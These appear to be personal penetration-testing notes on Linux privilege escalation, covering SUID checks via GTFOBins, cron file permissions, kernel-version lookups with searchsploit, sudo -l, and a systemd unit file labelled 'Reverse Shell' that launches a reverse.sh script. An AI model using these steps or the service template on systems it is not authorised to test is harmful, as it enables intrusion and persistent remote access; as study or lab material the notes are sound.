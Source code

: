 For SUID programs, check gtfo bins for SUID escalations
https://gtfobins.github.io

![[Pasted image 20231105104203.png]]

#### Sudo Programs in CRONTAB
Check the system level crontab
```
cat /etc/crontab
```

Check programs referenced for modification privileges
```
cd /path/to/cron/referenced/file && ls -alt
```
### Kernel Exploits
No SUID programs then check kernel version and check searchsploit for local privledge escalation vulnerabilities or check linpeas.sh output
```
hostnamectl
```

If hostnamectl isn't available
```
uname -r
```

```
searchsploit #.#.#
```
### Sudo Perms
Check Sudo permissions
```sh
sudo -l
```

From the output see what can be modified or escalated from https://gtfobins.github.io or via systemctl services

Example if `/usr/bin/reboot` has sudo privilege 

```ini
[Unit]
Description=Reverse Shell
After=network-online.target
 
[Service]
Type=simple
WorkingDirectory=/home/USER
ExecStart=/home/USER/reverse.sh
TimeoutSec=30
RestartSec=15s
User=USER
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure
 
[Install]
WantedBy=multi-user.target
```
